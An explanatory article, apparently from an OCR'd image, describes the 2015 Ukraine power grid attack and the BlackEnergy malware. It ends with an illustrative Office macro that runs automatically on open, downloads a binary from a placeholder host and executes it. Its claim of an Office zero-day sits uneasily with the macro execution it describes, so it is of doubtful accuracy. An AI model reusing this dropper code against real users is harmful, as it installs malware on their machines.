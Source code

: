 # CYBERWARFARE
## The 2015 Ukraine Power Grid Hack
The 2015 cyberattack on the Ukrainian power grid was a significant example of a successful cyberwarfare attack. This attack resulted in a widespread power outage in Ukraine, affecting hundreds of thousands of people. The attack is believed to have been carried out by a Russian cyber espionage group known as Sandworm, and it is considered to be the first successful cyberattack on a power grid.

## BlackEnergy Malware
The BlackEnergy malware used in the attack is a sophisticated piece of malware that has been around since at least 2007. It has evolved over time and has been used in various attacks, including targeted attacks against governments, energy companies, and critical infrastructure.

The malware is typically delivered through spear-phishing emails that contain a malicious attachment or link. Once installed on the target system, it can perform a variety of functions, including:

- Stealing login credentials and other sensitive information
- Creating a backdoor for remote access and control
- Downloading and executing additional malware
- Disrupting or disabling network connectivity and communication systems
- Destroying data or other critical assets

The BlackEnergy malware is highly modular and can be customized to suit the specific needs and objectives of the attacker. It can be used as a standalone tool or in conjunction with other malware and attack techniques.

## How the Attack Worked
In the case of the 2015 Ukraine power grid attack, the attackers used spear-phishing emails to distribute a malicious Microsoft Word document that exploited a zero-day vulnerability in Microsoft Office. The Word document contained a macro that was responsible for the actual execution of the malware.

Here's an example of what the macro code might have looked like:
```vbnet
Sub auto_open()
    Dim strBuf As String
    Dim intPos As Integer
    Dim strFile As String
    
    strBuf = "www.abc.com/malware.bin"
    
    strFile = Environ$("Temp") & "\XKG47h2x.tmp"
    
    Set oHttp = CreateObject("MSXML2.XMLHTTP")
    
    oHttp.Open "GET", strBuf, False
    oHttp.Send
    
    If oHttp.Status = 200 Then
        Set oStream = CreateObject("ADODB.Stream")
        oStream.Open
        oStream.Type = 1
        oStream.Write oHttp.responseBody
        oStream.SaveToFile strFile, 2
        oStream.Close
        Set oStream = Nothing
    End If
    
    Call Shell(strFile, vbNormalFocus)
End Sub
```
This macro code downloads the malware binary from a remote server and saves it to a temporary file on the infected system. It then executes the malware binary using the Windows Shell function.